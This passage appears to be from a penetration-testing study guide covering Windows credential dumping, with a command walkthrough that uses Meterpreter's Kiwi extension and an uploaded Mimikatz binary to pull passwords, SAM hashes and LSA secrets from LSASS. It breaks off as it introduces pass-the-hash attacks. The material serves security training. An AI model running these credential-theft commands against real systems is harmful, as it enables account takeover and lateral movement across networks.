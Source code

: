 As a security precaution, sometimes the credentials may be stored in the Unattended configuration files
may be encoded in Base64. Nevertheless, this can be easily decoded.

<a id=2.6.3></a>
### Dumping Hashes with Mimikatz

Mimikatz is the golden standard for the post-exploitation tools. It allows the extraction of clear-text passwords,
hashes and Kerberos tickets from memory.

Mimikatz can also extract hashes from the SAM through the memory of the LSASS process.

We can use precompiled Mimikatz binaries, alternatively, if we have a Meterpreter session in place, we can use the
inbuilt extension Kiwi.

Note: Mimikatz will require elevated privileges in order to run successfully.

Let's see how to use this tool.

```bash
# Let's try the Kiwi module first.
meterpreter > pgrep lsass.exe
meterpreter > migrate [LSASS PID]
meterpreter > load kiwi 
meterpreter > creds-all
# The kiwi module has a ton of options. Use the help/? command to check them out.
meterpreter > lsa_dump_sam
# This will dump the entire SAM database plus the Syskey. Useful later.
meterpreter > lsa_dump_secrets
# This will dump the LSA Secrets.
meterpreter > upload /path/to/mimikatz.exe
meterpreter > shell
C:\>.\Mimikatz.exe
mimikatz > privilege::debug
# If privileges are '29' OK, then we can continue.
mimikatz > lsadump::sam
mimikatz > lsadump::secrets
mimikatz > sekurlsa::logonpasswords
```

For more on Mimikatz, check this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

<a id=2.6.4></a>
### Pass-The-Hash Attacks

We know we can obtain NTLM hashes, but now we'll learn what to do with them.

A pass the hash attack is an exploitation technique that involves retrieving or capturing NTLM hashes
or clear-text passwords and utilizing them to authenticate with the target legitimately.

We can use multiple tools to execute Pass-The-Hash attacks. Some of them are:
